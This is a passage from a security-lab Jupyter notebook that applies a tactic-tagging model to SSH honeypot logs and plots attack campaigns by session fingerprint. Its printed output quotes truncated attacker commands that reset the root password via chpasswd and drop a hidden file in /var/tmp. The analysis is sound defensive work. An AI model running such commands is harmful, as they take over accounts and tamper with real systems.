

In [86]:
# --- Create scatter plot: Time vs Fingerprint ID ---
# Aggregate by day and fingerprint for point sizing
inference_df['date_day'] = inference_df['date'].dt.date

# Count sessions per fingerprint per day
daily_counts = inference_df.groupby(['date_day', 'fingerprint_id']).size().reset_index(name='count')
daily_counts['date_day'] = pd.to_datetime(daily_counts['date_day'])

# Create the scatter plot (similar to Figure 2 in the PDF)
fig, ax = plt.subplots(figsize=(14, 8))

# Use bounded square-root scaling so high-volume points remain visible without hiding the timeline.
max_daily_sessions = max(int(daily_counts['count'].max()), 1)
marker_sizes = 10 + 90 * np.sqrt(daily_counts['count'] / max_daily_sessions)

scatter = ax.scatter(
    daily_counts['date_day'],
    daily_counts['fingerprint_id'],
    s=marker_sizes,
    c=daily_counts['count'],      # Color by count
    cmap='YlOrRd',
    alpha=0.65,
    edgecolors='black',
    linewidth=0.35
)

# Add colorbar
cbar = plt.colorbar(scatter, ax=ax)
cbar.set_label('Sessions per Day', fontsize=PLOT_LABEL_SIZE)
cbar.ax.tick_params(labelsize=PLOT_TICK_SIZE)

ax.set_xlabel('Time', fontsize=PLOT_LABEL_SIZE)
ax.set_ylabel('Fingerprint ID (ordered by first appearance)', fontsize=PLOT_LABEL_SIZE)
ax.set_title('Attack Campaign Detection: Session Fingerprints Over Time', fontsize=PLOT_TITLE_SIZE)
ax.grid(True, linestyle='--', alpha=0.5)

# Rotate x-axis labels
format_report_axes(ax)
plt.xticks(rotation=45, ha='right', fontsize=PLOT_TICK_SIZE)

plt.tight_layout()
save_plot(fig, 'fingerprint_scatter_plot', path=save_dir)
plt.show()

In [87]:
# --- Identify potential attack campaigns and persistent fingerprints ---
max_daily_count = int(daily_counts['count'].max()) if len(daily_counts) else 0
campaign_threshold = max(25, math.ceil(max_daily_count * 0.5))

potential_campaigns = daily_counts[daily_counts['count'] >= campaign_threshold].copy()
potential_campaigns = potential_campaigns.merge(
    fingerprint_first_seen[['fingerprint_id', 'fingerprint_str']],
    on='fingerprint_id',
    how='left',
)

print(f"Max sessions/day for a single fingerprint: {max_daily_count}")
print(f"Potential Attack Campaigns (adaptive threshold >= {campaign_threshold} sessions/day):")
print("=" * 90)
if len(potential_campaigns) > 0:
    for _, row in potential_campaigns.sort_values('count', ascending=False).head(20).iterrows():
        example = inference_df[inference_df['fingerprint_id'] == row['fingerprint_id']].iloc[0]
        print(f"\nDate: {row['date_day'].strftime('%Y-%m-%d')}")
        print(f"Fingerprint ID: {row['fingerprint_id']}")
        print(f"Sessions in a day: {row['count']}")
        print(f"Fingerprint: {str(row['fingerprint_str'])[:90]}...")
        print(f"Example session: {str(example['session'])[:120]}...")
else:
    print("No significant campaign spikes detected with current adaptive threshold.")

fingerprint_persistence = daily_counts.groupby('fingerprint_id')['date_day'].nunique().reset_index(name='days_active')
fingerprint_volume = inference_df.groupby('fingerprint_id').size().reset_index(name='total_sessions')
fingerprint_health = fingerprint_persistence.merge(fingerprint_volume, on='fingerprint_id', how='left')

print("\n" + "=" * 90)
print("Fingerprint Persistence (Top 10 by active days):")
print("=" * 90)
if len(fingerprint_health) > 0:
    top_persistent = fingerprint_health.sort_values(['days_active', 'total_sessions'], ascending=False).head(10)
    print(top_persistent.to_string(index=False))
else:
    print("No persistence data available.")

Max sessions/day for a single fingerprint: 1736
Potential Attack Campaigns (adaptive threshold >= 868 sessions/day):

Date: 2019-12-09
Fingerprint ID: 1594
Sessions in a day: 1736
Fingerprint: Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|...
Example session: cat /proc/cpuinfo | grep name | wc -l ; echo "root:MlOmXb0J8rRi"|chpasswd|bash ; echo "321" > /var/tmp/.var03522123 ; rm...

Date: 2019-12-08
Fingerprint ID: 1594
Sessions in a day: 1427
Fingerprint: Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|...
Example session: cat /proc/cpuinfo | grep name | wc -l ; echo "root:MlOmXb0J8rRi"|chpasswd|bash ; echo "321" > /var/tmp/.var03522123 ; rm...

Date: 2019-12-10
Fingerprint ID: 1594
Sessions in a day: 1196
Fingerprint: Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|...
Example session: cat /proc/cpuinfo | grep name | wc -l ; echo "root:MlOmXb0J8rRi"|chpasswd|

Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task4_plots/fingerprint_frequency_distribution.png




In [88]:
# --- Plot fingerprint frequency distribution ---
fingerprint_counts = inference_df['fingerprint_str'].value_counts()

fig, axs = plt.subplots(1, 2, figsize=(14, 5))

# Histogram of fingerprint frequencies
axs[0].hist(fingerprint_counts.values, bins=50, color='#2E86C1', edgecolor='black', alpha=0.7)
axs[0].set_xlabel('Session Count', fontsize=PLOT_LABEL_SIZE)
axs[0].set_ylabel('Number of Fingerprints', fontsize=PLOT_LABEL_SIZE)
axs[0].set_title('Distribution of Fingerprint Frequencies', fontsize=PLOT_TITLE_SIZE)
axs[0].set_yscale('log')
axs[0].grid(True, linestyle='--', alpha=0.7)

format_report_axes(axs[0])

# Top fingerprints: limit the panel so labels remain readable at report width.
top_fingerprints = fingerprint_counts.head(12)
axs[1].barh(range(len(top_fingerprints)), top_fingerprints.values, color='#27AE60', edgecolor='black')
axs[1].set_yticks(range(len(top_fingerprints)))
axs[1].set_yticklabels([f[:30] + '...' if len(f) > 30 else f for f in top_fingerprints.index], fontsize=PLOT_TICK_SIZE)
axs[1].set_xlabel('Session Count', fontsize=PLOT_LABEL_SIZE)
axs[1].set_title('Top 12 Most Common Fingerprints', fontsize=PLOT_TITLE_SIZE)
axs[1].grid(True, linestyle='--', alpha=0.7, axis='x')
axs[1].invert_yaxis()
format_report_axes(axs[1])

plt.tight_layout()
save_plot(fig, 'fingerprint_frequency_distribution', path=save_dir)
plt.show()

Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task4_plots/daily_volume_and_novelty.png




Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task4_plots/daily_tactic_volume_and_composition.png




In [89]:
# --- Additional temporal analysis plots (volume, novelty, and tactic mix) ---
daily_session_volume = inference_df.groupby(inference_df['date'].dt.floor('D')).size().rename('sessions')
daily_new_fingerprints = (
    fingerprint_first_seen
    .assign(first_seen_day=pd.to_datetime(fingerprint_first_seen['first_seen']).dt.floor('D'))
    .groupby('first_seen_day')
    .size()
    .rename('new_fingerprints')
)

timeline_df = pd.concat([daily_session_volume, daily_new_fingerprints], axis=1).fillna(0).sort_index()
timeline_df['new_fp_ratio'] = np.where(
    timeline_df['sessions'] > 0,
    timeline_df['new_fingerprints'] / timeline_df['sessions'],
    0.0,
 )

fig, axs = plt.subplots(2, 1, figsize=(14, 9), sharex=True)

axs[0].plot(timeline_df.index, timeline_df['sessions'], color='#2E86C1', linewidth=PLOT_LINEWIDTH)
axs[0].set_ylabel('Sessions per day', fontsize=PLOT_LABEL_SIZE)
axs[0].set_title('Daily Session Volume', fontsize=PLOT_TITLE_SIZE)
axs[0].grid(True, linestyle='--', alpha=0.6)
format_report_axes(axs[0])

axs[1].plot(timeline_df.index, timeline_df['new_fingerprints'], color='#E67E22', linewidth=PLOT_LINEWIDTH, label='New fingerprints/day')
ax_ratio = axs[1].twinx()
ax_ratio.plot(
    timeline_df.index,
    timeline_df['new_fp_ratio'] * 100,
    color='#8E44AD',
    linewidth=PLOT_LINEWIDTH,
    linestyle='--',
    label='Novelty ratio (%)',
)
axs[1].set_ylabel('New fingerprints/day', fontsize=PLOT_LABEL_SIZE)
ax_ratio.set_ylabel('Novelty ratio (%)', fontsize=PLOT_LABEL_SIZE)
axs[1].set_title('Fingerprint Novelty Dynamics', fontsize=PLOT_TITLE_SIZE)
axs[1].grid(True, linestyle='--', alpha=0.6)
format_report_axes(axs[1])
format_report_axes(ax_ratio)
axs[1].tick_params(axis='x', rotation=45, labelsize=PLOT_TICK_SIZE)

lines_left, labels_left = axs[1].get_legend_handles_labels()
lines_right, labels_right = ax_ratio.get_legend_handles_labels()
axs[1].legend(lines_left + lines_right, labels_left + labels_right, loc='upper left', fontsize=PLOT_LEGEND_SIZE)

plt.tight_layout()
save_plot(fig, 'daily_volume_and_novelty', path=save_dir)
plt.show()

# Daily tactic mix
daily_tactics = inference_df[['date', 'predictions']].explode('predictions').dropna()
daily_tactics['date_day'] = pd.to_datetime(daily_tactics['date']).dt.floor('D')

daily_tactic_counts = (
    daily_tactics.groupby(['date_day', 'predictions'])
    .size()
    .unstack(fill_value=0)
    .sort_index()
)

top_tactics = daily_tactic_counts.sum().sort_values(ascending=False).head(5).index.tolist()
if len(daily_tactic_counts.columns) > len(top_tactics):
    tactic_plot_df = daily_tactic_counts[top_tactics].copy()
    tactic_plot_df['Other'] = daily_tactic_counts.drop(columns=top_tactics).sum(axis=1)
else:
    tactic_plot_df = daily_tactic_counts[top_tactics].copy()

tactic_share_df = tactic_plot_df.div(tactic_plot_df.sum(axis=1), axis=0).fillna(0)

fig, axs = plt.subplots(2, 1, figsize=(14, 10), sharex=True)
tactic_plot_df.plot.area(ax=axs[0], alpha=0.85, linewidth=0)
axs[0].set_ylabel('Token count', fontsize=PLOT_LABEL_SIZE)
axs[0].set_title('Daily MITRE Tactic Volume (Top classes)', fontsize=PLOT_TITLE_SIZE)
axs[0].grid(True, linestyle='--', alpha=0.6)
format_report_axes(axs[0])
axs[0].legend(loc='upper left', ncol=3, fontsize=PLOT_LEGEND_SIZE)

tactic_share_df.plot.area(ax=axs[1], alpha=0.85, linewidth=0)
axs[1].set_ylabel('Share of daily tokens', fontsize=PLOT_LABEL_SIZE)
axs[1].set_title('Daily MITRE Tactic Composition', fontsize=PLOT_TITLE_SIZE)
axs[1].grid(True, linestyle='--', alpha=0.6)
format_report_axes(axs[1])
axs[1].legend(loc='upper left', ncol=3, fontsize=PLOT_LEGEND_SIZE)
axs[1].tick_params(axis='x', rotation=45, labelsize=PLOT_TICK_SIZE)

plt.tight_layout()
save_plot(fig, 'daily_tactic_volume_and_composition', path=save_dir)
plt.show()

In [90]:
# --- Summary Statistics ---
date_span_days = (inference_df['date'].max() - inference_df['date'].min()).days + 1 if len(inference_df) else 0

print("\nInference Summary Statistics:")
print("=" * 60)
print(f"Total sessions analyzed: {len(inference_df):,}")
print(f"Unique fingerprints: {inference_df['fingerprint_str'].nunique():,}")
print(f"Date range: {inference_df['date'].min()} to {inference_df['date'].max()}")
print(f"Observed time span: {date_span_days:,} days")
print(f"Detected campaign spikes: {len(potential_campaigns):,}")
print(f"\nMost common fingerprint appears in {fingerprint_counts.iloc[0]:,} sessions")
print(f"Singleton fingerprints: {(fingerprint_counts == 1).sum():,}")


Inference Summary Statistics:
Total sessions analyzed: 174,262
Unique fingerprints: 1,905
Date range: 2019-09-01 00:00:10.493808 to 2019-12-30 23:56:54.297736
Observed time span: 121 days
Detected campaign spikes: 6

Most common fingerprint appears in 19,247 sessions
Singleton fingerprints: 901


---

## Conclusion

**Summary:**
- Task 1: Characterized the SSH session dataset, analyzing tag distributions and session lengths.
- Task 2: Compared BERT and UnixCoder tokenization strategies, showing how long-word truncation controls sequence length while preserving word-level alignment.
- Task 3: Fine-tuned the candidate NER models and selected the best validation model without using the test set for model choice.
- Task 4: Applied the selected model to `cyberlab.csv`, produced command-level tactic profiles, and built session fingerprints for campaign analysis.

**Key Findings:**
- UnixCoder provides the strongest final NER model in this run, reaching the best validation macro F1 among the fine-tuned candidates and therefore serving as the inference model.
- Command-level predictions show that shell commands are not always uniquely mapped to one tactic: `grep` is almost purely Discovery, while `echo`, `cat`, and `rm` depend more strongly on surrounding context.
- The fingerprint analysis finds both persistent low-ID behaviors and concentrated high-volume bursts, including a strong December campaign pattern, which is visible in the time-vs-fingerprint scatter plot.

